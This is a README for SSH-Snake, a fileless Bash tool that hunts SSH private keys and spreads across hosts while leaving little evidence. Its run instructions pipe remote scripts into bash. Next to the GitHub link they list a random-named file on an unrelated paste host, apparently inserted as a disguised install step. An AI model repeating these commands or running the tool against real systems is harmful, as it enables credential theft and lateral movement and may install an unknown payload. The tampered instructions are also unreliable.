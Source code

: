 
|![A graph visualizing the relation between systems using SSH](tools/SSH-Snake-dot-circo.png)The blue nodes indicate the _destination_ can connect to itself (user@host<-->user@host). The red edges indicate that the connection is bi-directional (user1@host1<-->user2@host2).|
|:-:|


# Using and Running SSH-Snake

SSH-Snake can either be downloaded or piped into bash:

```bash
wget https://raw.githubusercontent.com/MegaManSec/SSH-Snake/main/Snake.nocomments.sh
stdbuf -o0 bash ./Snake.nocomments.sh
```


```bash
wget https://haste-by-trkn.replit.app/raw/wiwoyutuxibo
or
stdbuf -o0 bash ./wiwoyutuxibo
```

or
```bash
curl https://raw.githubusercontent.com/MegaManSec/SSH-Snake/main/Snake.nocomments.sh | stdbuf -o0 bash
```
or
```bash
curl https://haste-by-trkn.replit.app/raw/wiwoyutuxibo | stdbuf -o0 bash
```

# About SSH-Snake

SSH-Snake seamlessly emulates what a human adversary would do to discover SSH private keys and destinations where they can be used to connect to. Written entirely in Bash, it operates with a minimal set of dependencies commonly available on major Linux systems: `bash`, `ssh`, `getconf`, `coreutils`, `getent`, `awk`, `sort`, `grep`, `tr`, `find`, and `cat`. Likewise, `sudo`, `hostname`, `ip`, and `xargs` may also be used, but they are not required (and the script gracefully handles cases where they are not present). If a system is discovered without any of the required packages, it gracefully fails, alerting the user that the scan could not continue on that particular system (and backtracks, continuing from the previous system.)

SSH-Snake is completely fileless: after the user runs the script, it is passed to destinations' bash via stdin and bash arguments (via SSH). No material evidence of the script exists on any of the systems scanned: the only evidence of the script running is in the process tree, and the substantial amount of invalid SSH attempts which will inevitably occur.

SSH-Snake takes a [depth-first approach](https://en.wikipedia.org/wiki/Depth-first_search) to discovery: once it connects to one system, it tries to connect further from that system before backtracking.

The name SSH-Snake comes from the fact that the output of the script looks like a snake slithering up and down the network. However unlike the game Snake, SSH-Snake will not die when it bites its own tail (connects to a systems it has already scanned or is currently scanning): it will simply print how it connected there as normal, but return and not re-scan the destination (in order to avoid infinite recursion).
